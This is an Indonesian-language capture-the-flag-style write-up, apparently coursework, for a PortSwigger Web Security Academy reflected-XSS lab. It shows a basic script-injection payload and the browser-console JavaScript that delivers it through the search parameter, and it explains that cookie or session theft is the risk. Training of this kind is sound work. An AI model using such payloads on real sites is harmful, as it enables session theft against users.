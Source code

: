 # **5. Reflected XSS into HTML Context with Nothing Encoded**

## **5.1 [Soal]**
Eksploitasi Reflected XSS pada parameter URL atau input form untuk menjalankan JavaScript di halaman PortSwigger Web Security Academy. Parameter ini berada di HTML context dan nothing encoded, sehingga payload langsung dieksekusi.

## **5.2 [Link resource untuk latihan]**
`https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded`

## **5.3 [Jawaban + Bukti]**
- **Step-by-step yang sudah dicoba:**
  1. Buka lab PortSwigger di browser melalui link di atas.  
  2. Periksa parameter URL atau form input yang rentan, misalnya `search`.  
  3. Siapkan payload XSS sederhana:  
     ```
    "><script>alert(1)</script>
     ```
     
  4. Kirim payload menggunakan console browser dengan manipulasi URL:  
    ```
    const url = new URL("https://0a8e001f0472f29d807dc19e0074005d.web-security-academy.net/");
    url.searchParams.set('search', '"><script>alert(1)</script>');
    window.location.href = url.toString();
    ```
     Hasilnya **alert box muncul di browser**, membuktikan parameter rentan terhadap Reflected XSS.

- **Screenshot terminal/browser:**  
<img width="1920" height="1080" alt="Screenshot 2025-09-11 001230" src="https://github.com/user-attachments/assets/8e7889ac-c63d-4212-93e2-abc46beba37b" />
<img width="1920" height="1020" alt="Screenshot 2025-09-11 001249" src="https://github.com/user-attachments/assets/403ca931-01e7-4d81-a314-381ce4560a49" />


- **Catatan hasil percobaan:**
  1. **Hasil:** Berhasil mengeksekusi JavaScript.  
  2. **Alasan:** Input tidak disanitasi atau di-encode → JavaScript dieksekusi secara langsung di HTML context.  
  3. **Refleksi:** Reflected XSS berbahaya karena memungkinkan eksekusi kode di browser korban, berpotensi mencuri cookie, session, atau melakukan aksi lain atas nama user.

